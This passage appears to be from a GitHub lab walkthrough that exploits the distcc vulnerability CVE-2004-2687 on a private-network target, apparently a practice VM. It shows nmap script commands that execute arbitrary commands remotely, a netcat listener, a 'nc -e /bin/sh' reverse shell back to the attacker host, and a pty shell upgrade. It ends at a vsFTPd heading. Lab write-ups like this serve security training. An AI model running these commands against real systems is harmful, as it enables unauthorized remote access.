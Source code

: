 Go to the location of scripts and find one script to vsftpd
```
ls *distcc* -la
-rw-r--r-- 1 root root 3519 Oct 12  2020 distcc-cve2004-2687.nse
```
Open the distcc-cve2004-2687.nse file and review the command usage
```
mousepad distcc-cve2004-2687.nse
```
![21](https://user-images.githubusercontent.com/50930193/118382041-af9e6200-b5b6-11eb-95cd-2b12bf4dc186.jpg)

We also know there is a nmap script that can be used to exploit this vulnerability. So we try use the scripts with other command different to id, we use ifconfig

```
nmap -p 3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='ifconfig'" 192.168.153.169
```

![22](https://user-images.githubusercontent.com/50930193/118382071-17ed4380-b5b7-11eb-904d-96ad94817b66.jpg)

It works!!!, so we need the same method to get a reverse shell with the target

We need use three windows.

In the first window we need create a listener with netcat

```
nc nlvp 4444
```

In the second window we need search the right command in gtobin

```
python3 gtfo.py nc | more
```
![24](https://user-images.githubusercontent.com/50930193/118382346-f9d51280-b5b9-11eb-87ee-e4f42c9db317.jpg)

In the third window we can execute the nmap command 
```
nmap -p 3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh 192.168.153.167 4444'" 192.168.153.169
```
We get a reverse shell!!

![23](https://user-images.githubusercontent.com/50930193/118382266-20df1480-b5b9-11eb-80c4-570cc64a0d34.jpg)

Also we can a iteractive shell using this command

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![25](https://user-images.githubusercontent.com/50930193/118382533-36097280-b5bc-11eb-9db2-0aeeb9153287.jpg)

###  EXPLOITING vsFTPd version 2.3.4 
